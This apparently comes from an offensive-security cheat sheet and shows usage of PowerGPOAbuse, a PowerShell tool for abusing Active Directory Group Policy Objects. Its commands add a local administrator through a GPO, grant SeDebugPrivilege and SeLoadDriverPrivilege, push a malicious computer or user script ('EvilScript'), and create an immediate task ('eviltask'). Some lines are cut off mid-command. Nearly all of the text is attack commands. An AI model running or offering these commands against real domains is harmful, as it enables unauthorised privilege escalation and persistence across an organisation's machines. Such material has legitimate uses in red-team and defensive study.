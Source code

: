 ## PowerGPOAbuse https://github.com/rootSySdk/PowerGPOAbuse

#### 1) Run the module

    PS> . .\PowerGPOAbuse.ps1

#### 2) Adding a localadmin

    PS> Add-LocalAdmin -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'

#### 3) Assign a new right

    PS> Add-UserRights -Rights "SeLoadDriverPrivilege","SeDebugPrivilege" -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'

#### 4) Adding a New Computer/User script

    PS> Add-ComputerScript/Add-UserScript -ScriptName 'EvilScript' -ScriptContent $(Get

#### 5) Create an immediate task

    PS> Add-GPOImmediateTask -TaskName 'eviltask' -Command 'powershell.exe /c' -CommandArguments
